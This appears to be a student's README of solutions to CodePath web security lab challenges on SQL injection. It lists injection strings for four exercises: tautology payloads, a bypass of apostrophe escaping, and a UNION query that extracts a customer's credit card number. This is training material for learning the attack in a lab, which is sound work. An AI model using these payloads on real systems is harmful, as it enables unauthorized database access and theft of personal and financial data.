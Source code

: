 # Web-Securities-Labs
codepath Web Securities labs

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- ";

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; #
